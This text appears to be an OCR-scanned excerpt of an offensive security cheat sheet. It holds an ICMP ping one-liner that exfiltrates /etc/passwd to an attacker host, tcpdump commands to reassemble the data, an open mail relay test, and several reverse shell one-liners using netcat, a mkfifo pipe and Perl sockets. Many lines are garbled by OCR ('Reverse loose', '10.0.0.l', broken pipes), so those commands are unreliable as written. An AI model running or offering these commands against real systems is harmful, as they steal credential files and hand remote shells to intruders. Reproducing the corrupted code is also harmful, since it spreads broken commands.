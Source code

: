 ```text
On victim (never ending 1 liner):
     stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ; done

On attacker (capture pac~ets to data.dmp and parse):
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```

### Open mail relay

```text
C:\ telnet x.x.x.x 25
Hello x.x.x.x
MAIL FROM: me@you.com
RCPT TO: YOU@YOU.com
DATA
Thank you.
quit
```


## Reverse loose

### Netcat command \(\* run on the attacker's system\)

```text
nc 10.0.0.1 1234 -e /bin/sh Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe Windows reverse shell
```

### Netcat command \(-e may not be supported in some versions\)

```text
nc -e /bin/sh 10.0.0.1 1234
```

### Netcat command for when -e is not supported

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &line l0.0.0.1 1234 /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.105 9999 >/tmp/f
```

### Perl language

```text
perl -e 'use Socket; $i="10.0.0.l"; $p=1234; socket (S, PF INET, SOCK STREAM,
getprotobjname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN," &S") ;open(STDOUT," &S"); open(STDERR," &S"); exec("/bin/sh" -i");};'
```
